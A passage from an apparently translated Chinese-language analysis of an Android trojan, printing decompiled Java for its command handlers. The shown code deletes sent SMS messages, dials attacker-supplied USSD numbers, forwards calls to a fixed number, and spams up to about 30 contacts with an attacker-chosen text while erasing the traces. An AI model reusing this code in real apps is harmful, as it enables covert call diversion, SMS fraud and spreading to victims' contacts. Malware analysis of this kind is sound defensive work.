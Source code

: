 RemoveAllSentMessagesRunnable类包装了TelephonyManagerWrapper2，我们稍后对其进行分析。

```
final class RemoveAllSentMessagesRunnable implements Runnable `{`
    private final String message;
    private final String numberTo;

    RemoveAllSentMessagesRunnable(String message, String numberTo) `{`
        this.message = message;
        this.numberTo = numberTo;
    `}`

    public final void run() `{`
        TelephonyManagerWrapper2.removeSentMessages(CommandHandler.context, this.message, this.numberTo);
    `}`
`}`
```

6.9.6 ussd

使用callPhoneNumber函数（位于TelephonyManagerWrapper2类中）调用命令所提供的号码。输入的电话号码可以使ussd命令。

```
case "ussd":
    TelephonyManagerWrapper2.callPhoneNumber(context, commandJson.optString("phone"));
    break;
```

6.9.7 delivery

下面展示了交付命令的代码，代码已经经过重新编写，以尽可能多地包含详细信息。

```
case "delivery":
    TelephonyManagerWrapper2.callPhoneNumber(context, "*21*+79009999999#");
    String smsMessage = commandJson.optString("text");
    String recipientPhoneNumber;
    Cursor allContacts = context.getContentResolver().query(ContactsContract$Contacts.CONTENT_URI, null, null, null, null);
    Cursor contactIds = context.getContentResolver().query(ContactsContract$CommonDataKinds$Phone.CONTENT_URI, null, "contact_id = ?", new String[]`{`allContacts.getString(allContacts.getColumnIndex("_id"))`}`, null);
    if (allContacts.getCount() &gt; 0 &amp;&amp; contactIds.getCount() &gt; 0) `{`
        for (int i = 1; i &lt; 30; i++) `{`
            if (allContacts.moveToNext()) `{`
                if (contactIds.moveToFirst()) `{`
                    recipientPhoneNumber = contactIds.getString(contactIds.getColumnIndex("data1"));
                    if (recipientPhoneNumber != null) `{`
                        sendAndRemoveMessage(smsMessage, recipientPhoneNumber);
                    `}`
                `}`
            `}`
        `}`
    `}`
    break;
```
